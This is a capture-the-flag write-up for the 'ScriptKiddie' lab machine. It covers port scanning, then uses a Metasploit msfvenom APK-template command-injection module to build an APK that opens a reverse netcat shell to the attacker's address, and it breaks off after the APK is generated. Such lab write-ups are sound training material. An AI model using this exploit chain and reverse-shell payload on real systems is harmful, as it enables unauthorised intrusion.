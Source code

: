 ScriptKiddie
============
Enumeration
------
For port scanning I'll use following script
````
#!/bin/bash
masscan --rate=3000 -e tun0 -p1-65535 $1 > $2
mkdir Scan-results/$2
cat $2 | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr "\n" ',' | sed 's/,$//' > Scan-results/$2/$2-ports
rm $2
ports=`cat Scan-results/$2/$2-ports`
nmap -T4 -Pn -sV -sC -oA Scan-results/$2/$2-version $1 -p$ports
rm Scan-results/$2/$2-version.xml
rm Scan-results/$2/$2-version.gnmap
````
````
./Scan-script.sh 10.10.10.226 ScriptKiddie
````
There are some open ports
```
# Nmap 7.91 scan initiated Sat Feb  6 23:42:44 2021 as: nmap -T4 -Pn -sV -sC -oA Scan-results/ScriptKiddie/ScriptKiddie-version -p22,5000 10.129.72.252
Nmap scan report for 10.129.72.252
Host is up (0.19s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb  6 23:43:03 2021 -- 1 IP address (1 host up) scanned in 18.61 seconds
```
SSH works at standart port 22 and http service at uncommon port 5000

After editing /etc/host let's see a web page on skriptkiddie.htb:5000
```
10.10.10.226    scriptkiddie.htb
```

![alt_text](https://github.com/Healops/Writeups/blob/main/ScriptKiddie/Images/Web%20page.PNG)

Foothold
---
There are three options available
Nmap, msfvenom and searchsploit are executed on the server and we can see the result
![alt_text](https://github.com/Healops/Writeups/blob/main/ScriptKiddie/Images/nmap.PNG)

![alt_text](https://github.com/Healops/Writeups/blob/main/ScriptKiddie/Images/msfvenom.PNG)

![alt_text](https://github.com/Healops/Writeups/blob/main/ScriptKiddie/Images/searchsploit.PNG)

We can assume that commands can be executed on the server without any filtering of user input and try to execute something on the server

![alt_text](https://github.com/Healops/Writeups/blob/main/ScriptKiddie/Images/ls.PNG)

![alt_text](https://github.com/Healops/Writeups/blob/main/ScriptKiddie/Images/nmap%20ls.PNG)

But everything is filtered

Attemption generate reverse shell for linux with msfvenom on server and execute it don't work because of some problems on the server

![alt_text](https://github.com/Healops/Writeups/blob/main/ScriptKiddie/Images/revsh.PNG)

Searching for an exploit for one of the tools led me to the msfvenom vulnerability that can be exploited with metasploit 6

```
msf6 > search msfvenom

Matching Modules
================

   #  Name                                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                                    ---------------  ----       -----  -----------
   0  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
```

We can create APK template for msfvenom tool on the victim server and after execute msfvenom command for android we'll get revers-shell

```
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > use 0
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > show options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.6       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit

[+] msf.apk stored at /root/.msf4/local/msf.apk
```
Now we can load our payload as template
![alt_text](https://github.com/Healops/Writeups/blob/main/ScriptKiddie/Images/apk.PNG)
